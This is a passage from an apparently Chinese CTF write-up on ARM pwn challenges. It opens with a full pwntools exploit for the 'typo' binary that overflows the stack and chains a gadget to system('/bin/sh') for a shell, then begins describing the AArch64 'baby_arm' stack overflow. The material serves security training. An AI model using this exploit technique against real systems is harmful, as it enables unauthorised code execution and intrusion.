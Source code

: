 ```python
from pwn import *
import sys
context.binary = "./typo"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "./typo"])
else:
    #p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabi", "./typo"])
    #p = process(['qemu-arm',"-g","1234","./typo"])
    p = process(['qemu-arm',"./typo"])
elf = ELF("./typo")
libc = ELF("/usr/arm-linux-gnueabi/lib/libc.so.6")

pop_r0_r4_pc = 0x00020904
str_binsh = 0x0006c384
system = 0x000110B4
padding = 112
payload = 'a'*padding + p32(pop_r0_r4_pc) + p32(str_binsh)*2 + p32(system)

p.sendlineafter("quit",'')
# p.sendline("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
sleep(1)
p.sendline(payload)

p.interactive()
```

## 2018 上海市大学生网络安全大赛 - baby_arm

### 基本情况

Aarch64 架构只打开 nx 保护，是个动态连接的程序，qemu 启动要用 -L 指定运行库：``qemu-aarch64 -L /usr/aarch64-linux-gnu ./pwn``

![image-20210122121112367](_images/arm/image-20210122121112367.png)

程序一共两次输入，第一次是输入到 bss 段，第二次存在栈溢出。
